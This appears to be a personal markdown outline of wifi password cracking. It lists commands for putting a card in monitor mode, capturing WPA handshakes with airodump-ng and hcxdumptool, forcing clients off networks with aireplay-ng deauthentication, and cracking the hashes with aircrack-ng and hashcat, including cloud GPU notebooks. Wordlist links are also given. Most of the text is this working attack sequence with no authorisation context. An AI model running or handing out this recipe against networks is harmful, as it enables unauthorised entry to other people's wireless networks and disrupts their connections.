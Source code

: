
1. Introduction to wifi hacking
	1. monitor mode - airmon‐ng start wlan0
	2. verify - iwconfig
	3. traffic capture - airodump‐ng wlan0mon #(interface)
	4. airodump‐ng ‐c 6 ‐‐bssid C1:F7:C1:5D:9D:10 ‐w pass wlan0mon #(interface)
	5. de-authenticate wireless clients until handshake available - aireplay‐ng ‐0 100 ‐a C0:F6:C2:5E:8D:20 wlan0mon 
	6. crack pass - aircrack‐ng ‐w /usr/share/wordlists/rockyou.txt ‐b  C1:F7:C1:5D:9D:10 pass*.cap
	7. Other pass lists:
		1. https://weakpass.com/
		2. https://github.com/danielmiessler/SecLists/tree/master/Passwords/WiFi-WPA
		3. https://labs.nettitude.com/blog/rocktastic/
		4. https://github.com/kennyn510/wpa2-wordlists
2. Wifi hacking with Aircrack
3. Wireless attacks
4. Handshakes capturing with Hcxdumptool
	1. sudo apt‐get install hcxdumptoo
	2. sudo systemctl stop NetworkManager
	3. sudo systemctl stop wpa_supplicant
	4. scan - sudo hcxdumptool ‐i wlan0 ‐‐do_rcascan
	5. capture until files available (essidlist, hash.hc22000)- sudo hcxdumptool ‐i wlan0 ‐o dumpfile.pcapng –active_beacon –enable_status=15
	6. sudo systemctl start NetworkManager
	7. Source:
		1. https://github.com/ZerBea/hcxdumptool
5. Handshakes preparing for cracking
	1. hcxdumptool - pcapng file
		1. sudo apt‐get install hcxtools
		2. convert - hcxpcapngtool ‐o hash.hc22000 ‐E essidlist dumpfile.pcapng
		3. verify BSSID - sudo hcxdumptool ‐i wlan0 ‐‐do_rcascan
		4. reduce hash.hac22000 to necessary network
	2. aircrack-ng - .pcap file
		1. https://hashcat.net/cap2hashcat/
6. Wifi passwords cracking with hashcat
	1. hash.hc22000 for hashcat
	2. Hashcat ‐m 22000 ‐a 0 ‐o cracked.txt hash.hc22000 rockyou.txt
		1. device selection - -D 2 -d3 
	3. Other tools:
		1. Colab:
			1. https://colab.research.google.com/github/mxrch/penglab/blob/master/penglab.ipynb
			2. https://colab.research.google.com/github/someshkar/colabcat/blob/master/colabcat.ipynb
			3. https://colab.research.google.com/github/ShutdownRepo/google‐colab‐hashcat/blob/main/google_colab_hashcat.ipynb
			4. wget http://filebin.com/filename
			5. !hashcat ‐‐status ‐m 22000 ‐a 0 ‐o cracked.txt hash.hc22000 /content/wordlists/rockyou.txt
		2. https://gradient.run/
			1. https://colab.research.google.com/github/ShutdownRepo/google‐colab‐hashcat/blob/main/google_colab_hashcat.ipynb
7. Wifi passwords cracking with FERN
